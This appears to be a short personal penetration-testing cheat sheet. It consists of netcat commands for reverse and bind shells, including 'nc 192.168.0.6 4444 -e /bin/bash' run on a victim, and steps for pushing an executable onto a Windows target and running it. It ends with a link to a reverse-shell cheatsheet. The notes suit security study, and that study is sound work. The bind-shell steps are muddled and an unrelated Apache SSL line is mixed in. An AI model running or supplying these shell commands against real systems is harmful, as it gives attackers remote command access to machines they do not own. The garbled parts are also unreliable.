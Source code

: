 # Reverse shell
Connection from the target to the attacker
//opening port with netcat on my system
nc -nvlp 4444
//or -n skip dns name resolution & verbose
nc -n -v 10.11.0.22 110

//establishing connection on the victims system
nc 192.168.0.6 4444 -e /bin/bash

//just to open connection, and chat
nc -nv 10.11.0.22 4444


# Bind shell
Connection from the attacker to the target  
//opening port with netcat on the target 
nc -nvlp 4444

//establishing connection on my pc
nc 192.168.0.6 4444 -e /bin/bash

# Buffer overflow
Local bo is not intereseting check for remote bo

# transfer files to windows
//on target system and redirect any file to incoming.exe
nc -nlvp 4444 > incoming.exe

//locate file
locate wget.exe

// transfer file => we need to wait for file being uploaded
nc -nv 10.11.0.22 4444 < /user/share/.../wget.exe

//on target but first abort nc
incoming.exe -v


/etc/apache2/ssl/apache.crtSSLCertificateKeyFile /etc/apache2/ssl/apache.key

# in systems
https://github.com/swisskyrepo/PayloadsAllTheThings/blob/master/Methodology%20and%20Resources/Reverse%20Shell%20Cheatsheet.md
